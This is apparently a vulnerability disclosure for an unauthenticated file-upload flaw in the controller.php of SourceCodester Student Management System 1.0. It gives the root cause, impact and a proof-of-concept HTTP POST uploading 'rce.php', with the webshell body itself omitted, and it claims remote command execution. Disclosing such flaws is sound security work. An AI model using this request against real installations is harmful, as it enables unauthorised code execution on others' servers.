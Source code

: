 # SourceCodester Student Management System 1.0 controller.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Student Management System
## Vendor Homepage
+ https://www.sourcecodester.com/php/14268/student-management-system.html#google_vignette
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Schnee
## Vulnerable File
+ /student/controller.php
## VERSION(S)
+ V1.0
## Software Link
+ https://www.sourcecodester.com/sites/default/files/download/Kabir%20M.%20Alhasan/studentmanagement.zip
# PROBLEM TYPE 
## Vulnerability Type
+ File upload
## Root Cause
+ The input obtained through doupdateimage in line 218 of the student\controller.php file is used by doupdateimage in line 237 of the student\controller.php file to determine the location of the file to be written, which may allow attackers to change or damage the content of the file, or create a brand new file
+ ![2](https://github.com/I-Schnee-I/cev/assets/58547398/429ef6c5-e524-454a-a352-2f5e7d84082d)
## Impact
+ Attackers can exploit this vulnerability for unrestricted uploads, and remote attacks may result in RCE.
# DESCRIPTION
+ Schnee found that the file upload operation was triggered in /student/controller.php, and the _FAILE variable was used to receive the payload. After receiving the attack vector from a remote attacker, it will result in unrestricted uploads, and remote attacks may lead to RCE.
# Vulnerability details and POC
## Payload
## This process does not require any user login and can also be uploaded
+ The picture I uploaded here is a photo of carrying a Trojan horse, but due to character confusion, I took a screenshot directly.
+ ![4](https://github.com/I-Schnee-I/cev/assets/58547398/ca9fc746-a74d-4e64-ae93-27c49571b19d)
```
POST /student/controller.php?action=photos HTTP/1.1
Host: 192.168.224.132:8100
Content-Length: 2219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.102 Safari/537.36
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiu8L6gw9ImP0UMa1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryiu8L6gw9ImP0UMa1
Content-Disposition: form-data; name="photo"; filename="rce.php"
Content-Type: image/jpeg

Node:Sorry, due to some coding reasons, I am unable to use markdown to store image data with attack payloads here.

------WebKitFormBoundaryiu8L6gw9ImP0UMa1
Content-Disposition: form-data; name="submit"

æäº¤
------WebKitFormBoundaryiu8L6gw9ImP0UMa1--
```
+ ![3](https://github.com/I-Schnee-I/cev/assets/58547398/ed7b3fa7-48e3-48eb-87aa-46a84720b325)
## This file upload vulnerability will automatically add a timestamp before the name of the uploaded file.
+ Successfully utilized file with payload and executed ipconfig command
+ ![1](https://github.com/I-Schnee-I/cev/assets/58547398/e6859973-9f05-4062-a79b-d2ae2c837d18)



------------------https://github.com/CveSecLook/cve/issues/16
